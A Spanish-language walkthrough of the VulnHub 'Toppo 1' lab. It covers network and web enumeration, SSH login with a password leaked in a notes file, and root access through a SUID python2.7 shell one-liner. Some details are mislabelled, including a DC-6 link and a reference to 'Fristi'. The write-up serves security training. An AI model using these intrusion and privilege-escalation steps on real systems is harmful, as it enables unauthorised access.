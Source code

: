 # VulnHub Toppo 1

[VulnHub Toppo 1](https://www.vulnhub.com/entry/dc-6,315/) El objetivo de la máquina es obtener unas credenciales para conectarnos por SSH y obtener la flag de root

## Tabla de contenidos
- [Enumeration](#enumeration)
- [Foothold](#foothold)
- [Privileges escalation](#privilege-escalation)

# Enumeration
Para empezar, necesitamos obtener la dirección IP de Fristi
```bash
sudo arp-scan -l
```
Una vez tengamos la IP, vamos a realizar un escaneo de puertos utilizando nmap. Esto nos permitirá identificar qué servicios están activos en nuestro objetivo y así poder planificar nuestra estrategia con mayor precisión
```bash
nmap -sV 10.0.1.16
```
Resultado:
```bash
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-05-08 12:51 EDT
Nmap scan report for 10.0.1.16 (10.0.1.16)
Host is up (0.00028s latency).
Not shown: 997 closed tcp ports (conn-refused)
PORT    STATE SERVICE VERSION
22/tcp  open  ssh     OpenSSH 6.7p1 Debian 5+deb8u4 (protocol 2.0)
80/tcp  open  http    Apache httpd 2.4.10 ((Debian))
111/tcp open  rpcbind 2-4 (RPC #100000)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 6.55 seconds
```
Al observar tenemos un puerto abierto 80, procederemos a utilizar Gobuster para llevar a cabo una enumeración de directorios y archivos en el sitio web
```bash
gobuster dir -w /usr/share/wordlists/dirb/big.txt -u http://10.0.1.16 -x php
```
Resultado:
```bash
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.0.1.16
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirb/big.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Extensions:              php
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/.htaccess            (Status: 403) [Size: 293]
/.htpasswd            (Status: 403) [Size: 293]
/.htaccess.php        (Status: 403) [Size: 297]
/.htpasswd.php        (Status: 403) [Size: 297]
/LICENSE              (Status: 200) [Size: 1093]
/admin                (Status: 301) [Size: 306] [--> http://10.0.1.16/admin/]
/css                  (Status: 301) [Size: 304] [--> http://10.0.1.16/css/]
/img                  (Status: 301) [Size: 304] [--> http://10.0.1.16/img/]
/js                   (Status: 301) [Size: 303] [--> http://10.0.1.16/js/]
/mail                 (Status: 301) [Size: 305] [--> http://10.0.1.16/mail/]
/manual               (Status: 301) [Size: 307] [--> http://10.0.1.16/manual/]
/server-status        (Status: 403) [Size: 297]
/vendor               (Status: 301) [Size: 307] [--> http://10.0.1.16/vendor/]
Progress: 40938 / 40940 (100.00%)
===============================================================
Finished
===============================================================
```

# Foothold
Resalta la dirección /admin. Dentro de ella encontramos /admin/notes.txt, donde se revela un mensaje que contiene una contraseña
```bash
Note to myself :

I need to change my password :/ 12345ted123 is too outdated but the technology isn't my thing i prefer go fishing or watching soccer .
```
Gracias a esto, conseguimos las credenciales que nos permitirán acceder a SSH
```bash
username: ted
password: 12345ted123
``` 

Con esto habremos ocnseguido acceder a la maquina

## Decodificar con python
Vamos a revisar qué archivos tienen el SUID activado para intentar obtener acceso como root
```bash
ted@Toppo:~$ find / -perm -u=s -exec ls -l {} \; 2>/dev/null
-rwsr-xr-x 1 root root 96760 Aug 13  2014 /sbin/mount.nfs
-rwsr-xr-x 1 root root 1085300 Feb 10  2018 /usr/sbin/exim4
-rwsr-xr-x 1 root root 9468 Mar 28  2017 /usr/lib/eject/dmcrypt-get-device
-rwsr-xr-- 1 root messagebus 362672 Nov 21  2016 /usr/lib/dbus-1.0/dbus-daemon-launch-helper
-rwsr-xr-x 1 root root 562536 Nov 19  2017 /usr/lib/openssh/ssh-keysign
-rwsr-xr-x 1 root root 78072 May 17  2017 /usr/bin/gpasswd
-rwsr-xr-x 1 root root 38740 May 17  2017 /usr/bin/newgrp
-rwsrwxrwx 1 root root 3889608 Aug 13  2016 /usr/bin/python2.7
-rwsr-xr-x 1 root root 43576 May 17  2017 /usr/bin/chsh
-rwsr-sr-x 1 daemon daemon 50644 Sep 30  2014 /usr/bin/at
-rwsr-xr-x 1 root root 106908 Mar 23  2012 /usr/bin/mawk
-rwsr-xr-x 1 root root 52344 May 17  2017 /usr/bin/chfn
-rwsr-sr-x 1 root mail 96192 Nov 18  2017 /usr/bin/procmail
-rwsr-xr-x 1 root root 53112 May 17  2017 /usr/bin/passwd
-rwsr-xr-x 1 root root 38868 May 17  2017 /bin/su
-rwsr-xr-x 1 root root 26344 Mar 29  2015 /bin/umount
-rwsr-xr-x 1 root root 34684 Mar 29  2015 /bin/mount
```
Observamos que python2.7 tiene los permisos SUID activados, así que vamos a intentar obtener una shell como root ejecutando este binario
```bash
ted@Toppo:~$ /usr/bin/python2.7 -c 'import pty;pty.spawn("/bin/sh");'
# cat /root/flag.txt
_________                                  
|  _   _  |                                 
|_/ | | \_|.--.   _ .--.   _ .--.    .--.   
    | |  / .'`\ \[ '/'`\ \[ '/'`\ \/ .'`\ \ 
   _| |_ | \__. | | \__/ | | \__/ || \__. | 
  |_____| '.__.'  | ;.__/  | ;.__/  '.__.'  
                 [__|     [__|              




Congratulations ! there is your flag : 0wnedlab{p4ssi0n_c0me_with_pract1ce}



# 
```